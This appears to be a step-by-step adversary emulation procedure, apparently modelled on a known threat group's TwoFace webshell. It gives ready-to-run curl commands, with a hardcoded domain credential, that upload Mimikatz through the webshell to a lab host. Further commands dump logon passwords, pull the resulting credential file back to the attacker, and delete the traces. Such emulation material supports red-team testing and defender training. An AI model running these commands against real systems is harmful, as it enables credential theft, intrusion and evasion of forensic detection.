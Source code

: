 
### :biohazard: Procedures

Download Mimikatz to `WATERFALLS (10.1.0.6)`.

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -F "upl=f1" -F 'sav=C:\Windows\temp\' -F "vir=false" -F "nen=m64.exe" -F 'f1=@m64.exe' https://10.1.0.6/EWS/contact.aspx
```

Dump credentials using Mimikatz. Output includes creds for SQL server 
administrator `tous`.

:bulb: `privilege::debug` has been included here to match the CTI, but is
unnecessary due to the webshell running as SYSTEM.

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=C:\Windows\Temp\m64.exe privilege::debug sekurlsa::logonPasswords exit 1> C:\Windows\Temp\01.txt" https://10.1.0.6/ews/contact.aspx
```

Exfiltrate the resulting output file `01.txt` to the attacker platform.

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -o 01.txt --data 'don=c:\windows\temp\01.txt' https://10.1.0.6/EWS/contact.aspx
```

Display the contents of `01.txt` in the terminal window.

```bash
cat 01.txt
```

Clean up on `WATERFALLS` by removing the binary and output file from 
`C:\Windows\Temp\`.

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=del C:\windows\temp\01.txt C:\windows\temp\m64.exe" https://10.1.0.6/EWS/contact.aspx
```
<br>

### :moyai: Source Code
:heavy_exclamation_mark: __NB__: The function descriptions in TwoFace (contact.aspx) refer to the Mimikatz download as "Arbitrary Folder Upload" and the 01.txt exfiltration as "File Download" which is the reverse of how said activities are described in the emulation procedure; this is to match to CTI but results in slightly contradictory source code links.
*  TwoFace Webshell download file to victim: [contact.aspx#L58-L115](contact.aspx#L58-L115)
*  TwoFace Webshell file upload file to C2: [contact.aspx#L120-L145](contact.aspx#L120-L145)
*  TwoFace Webshell temp delete: [contact.aspx#L150-L169](contact.aspx#L150-L169)

<br>

*  Mimikatz: [Mimikatz](Mimikatz.)

<br>
